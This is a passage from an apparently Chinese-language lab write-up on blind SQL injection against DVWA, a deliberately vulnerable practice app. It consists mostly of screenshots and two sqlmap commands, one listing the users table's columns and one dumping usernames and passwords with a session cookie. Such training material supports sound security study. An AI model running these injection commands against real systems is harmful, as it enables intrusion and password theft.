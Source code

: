 ![image-20240517170432334](https://cdn.jsdelivr.net/gh/Ken-ky/blogImage@main/img/202405171704456.png)

查询`users`表下字段：`python2 sqlmap.py -u "http://dvwa/vulnerabilities/sqli_blind/?id=1&Submit=Submit" --cookie="PHPSESSID=pbhpblqt95rv4ghv88dmeljh7c; security=low" --batch --technique=B --current-db -D dvwa --tables -T users --columns`

![image-20240517170614309](https://cdn.jsdelivr.net/gh/Ken-ky/blogImage@main/img/202405171706403.png)

查询`user`中各用户密码：`python2 sqlmap.py -u "http://dvwa/vulnerabilities/sqli_blind/?id=1&Submit=Submit" --cookie="PHPSESSID=pbhpblqt95rv4ghv88dmeljh7c; security=low" --batch --technique=B --current-db -D dvwa --tables -T users -C user,password --dump`

![image-20240517170912454](https://cdn.jsdelivr.net/gh/Ken-ky/blogImage@main/img/202405171709564.png)
